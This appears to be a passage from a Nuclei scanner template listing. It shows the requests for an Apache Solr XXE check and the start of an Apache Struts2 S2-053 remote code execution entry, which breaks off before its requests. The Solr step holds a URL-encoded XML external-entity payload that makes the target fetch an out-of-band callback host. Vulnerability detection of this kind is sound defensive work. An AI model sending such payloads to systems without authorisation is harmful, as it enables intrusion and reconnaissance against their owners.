 ## Requests

### Step - 1

```
GET /solr/admin/cores?wt=json HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
GET /solr/{{core}}/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20root%20%5B%0A%3C!ENTITY%20%25%20remote%20SYSTEM%20%22https%3A%2F%2F{{interactsh-url}}%2F%22%3E%0A%25remote%3B%5D%3E%0A%3Croot%2F%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

### Extractors

**Type - regex**

- internal - True
- name - core
- group - 1
- regex
  1. "name"\:"(.\*?)"

---

# Apache Struts2 S2-053 - Remote Code Execution

## Description

- Apache Struts 2.1.x and 2.3.x with the Struts 1 plugin might allow remote code execution via a malicious field value passed in a raw message to the ActionMessage.
- severity - critical
- tags - cve,cve2017,apache,rce,struts,kev

## Requests
